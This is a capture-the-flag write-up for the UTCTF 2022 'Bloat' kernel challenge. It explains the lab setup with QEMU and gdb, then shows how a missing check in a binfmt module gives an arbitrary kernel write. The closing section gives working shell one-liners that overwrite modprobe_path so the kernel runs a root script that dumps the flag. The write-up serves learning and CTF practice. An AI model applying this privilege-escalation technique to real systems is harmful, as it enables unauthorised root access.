



**Bloat**

was a kernel exploitation challenge from UTCTF 2022.

It was a very basic kernel challenge, and make a good introduction to kernel vulnerability exploitation..


As often with kernel challenges, we were given a kernel image "bzImage", 

an initramfs image containing the root filesystem named "rootfs.cpio.gz"

and script to launch the challenge via qemu.

first we extracted the filesystem like this:

```sh
mkdir rootfs
cd rootfs
zcat ../rootfs.cpio.gz | sudo cpio -idv
```

We use sudo in our commands, because some files are going to be created as root user in the original filesystem.

we inspect the filesystem, and found a custom module named "bloat.ko"

that will be that module that we have to exploit.

if you want to make any modifications to the filesystem, like adding tools, changing user to root, or anything you will need to 

work.. you will have to re-create the rootfs.cpio.gz archive like this:

```sh
cd rootfs
sudo find . | sudo cpio --create --format=newc | gzip -9c > ../rootfs.cpio.gz
```


The bzImage can be extracted to a vmlinux (uncompressed version), with the extract-vmlinux tools that you will find in linux kernel source code directory, in the scripts/ sub-directory.

The version given is stripped from debug info, and symbols , which is painful to work..

You can still extract symbols from with this tool:

https://github.com/marin-m/vmlinux-to-elf.git

it will create a vmlinux.elf from your vmlinux file, with some symbols useful for debugging, like this:

```sh
vmlinux-to-elf vmlinux vmlinux.elf
```

to launch the QEMU virtual machine with the kernel and the initramfs filesystem with gdb debugging

you can use:

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel bzImage \
    -initrd rootfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "rootwait root=/dev/vda console=ttyS0 kpti=1 panic=1 nokaslr quiet" \
    -s -S
```

this will launch the vm with gdb waiting for connection on local port 1234.

You can also put a fake flag , in a "flag.txt" file, qemu will map it as a drive  to /dev/sda (only accessible by root user)

that's the flag that you will have to dump, when you will have succeed in exploiting the module vulnerability, and escalate to root user..

in another windows terminal just do:

```sh
gdb -ex 'set architecture i386:x86_64' -ex 'target remote localhost:1234' -ex 'add-symbol-file bloat.ko 0xffffffffc0000000' -ex 'b load_bloat_binary' -ex 'c' ./vmlinux.elf
```

we will add symbols from the bloat.ko module in the gdb command line, and set a breakpoint at the main function of the module, and continue the execution. I recommend you to use GEF or PWNDBG gdb extension , to make the debugging easier..

In the other windows, you will see the kernel booting...

You can interrupt the VM execution anytime by pressing CTRL+c in gdb windows.. to inspect, modify, etc..

that was our basic setup..


Now let's reverse the bloat.ko module:




So as the challenge description says,  the module add a new binfmt format, via the kernel module.

If you don't know what binfmt is, you can read basic description here:

https://en.wikipedia.org/wiki/Binfmt_misc

The module register a  basic binary format that consists only of a QWORD containing the wanted mapping address in memory,

and after it, the code to be executed. 

The maximum file size is 256 bytes, and the filename extension must be '.bloat'


When you will try to execute this rudimentary executable, the kernel will pass it to all the binfmt handlers registered,

and when it will be recognized by one of them, it will process the executable.


**So what is the vulnerability here in the module?**

Well.. 

The vm_mmap try to map a RWX zone of 256 bytes at the address in the QWORD to store the code of the .bloat executable.

But it does not check if the mapping success, or return an error..

And it continue the execution to the loop that copy the data from the file, to the address in the QWORD.

The copy loop itself, does not use put_user() to enforce that data will be copied only to user space..and not kernel space.

So if we give a kernel address that is writable, the vm_mmap() call will failed, but the data will be copied to our destination..

basically, it is a "write anywhere primitive"...


<u>question:</u>

 what is the simplest way to have code execution with a write primitive in a recent kernel?

<u>answer:</u>

overwriting `modprobe_path`.

if you don't know about that method, there is a writable `modprobe_path` variable in recent kernel, that contains the path to the 

modprobe binary, that will be executed in case kernel needs to load a module.

```
the kernel executes `call_modprobe` which creates a user-space process with root privileges. `modprobe_path` is a global variable (`char [256]`) pointing to `/sbin/modprobe` by default (and can be set to an arbitrary path via `sysctl kernel.modprobe`).
```

you can found a good explanation here:

https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/


So in gdb we just have to check the `modprobe_path` address:



ok so the exploitation will be very straightforward now:

we will create a ".bloat" executable , that overwrite `modprobe_path`  value with a "/tmp/a" string:

`echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00" > /tmp/x.bloat`


then we create a ""/tmp/a" executable, that will contain a script dumping the flag to a file in /tmp:

`echo -e "#!/bin/sh\ncat /dev/sda > /tmp/flag" > /tmp/a`

we create also a fake binary that will launch the modprobe binary from kernel when we try to execute it..

`echo -ne "\xff\xff\xff\xff" > /tmp/b`

we change permissions to executable for all this files:

`chmod a+x /tmp/a /tmp/b /tmp/x.bloat`

then we execute the /tmp/x.bloat first, 

then the /tmp/b fake executable..  and it will launch /tmp/a that dump the flag in /tmp/flag...

we just have to read /tmp/flag now... and that's finish !



**nobodyisnobody still pwning things..**
